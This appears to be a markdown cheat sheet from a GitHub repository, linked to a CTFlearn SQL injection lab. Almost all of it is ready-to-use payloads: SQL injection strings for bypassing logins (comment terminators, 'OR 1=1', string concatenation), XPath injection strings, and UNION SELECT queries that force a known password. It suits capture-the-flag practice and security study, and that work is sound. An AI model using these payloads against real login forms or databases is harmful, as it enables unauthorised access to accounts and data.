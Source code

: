 ### Helpful links:
https://ctflearn.com/lab/sql-injection-part-1




### COMMANDS:

```sql
admin'--
admin' /*
admin';
ad'||'min'; // Concatenation operator : Concatenates and then terminates

Check for * in admin passwd
```
```sql
" or 1=1 -- 
" OR 1=1 --
```

#### Sometimes some particular special characters are filtered and '*' or '&' may work so try every characters once as a test.

```sql
' or 1 or '
' or 1=1 --
' OR 1=1 --
' or '1' = '1
' OR "tr"||"ue" --
' OR 2^3 --
admin admin
user user
```

## Xpath injection
```python
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```

## Bypass Login
```py
SELECT password FROM admins WHERE username='admin' UNION SELECT '123' AS password#
' UNION SELECT '123' AS password#
```
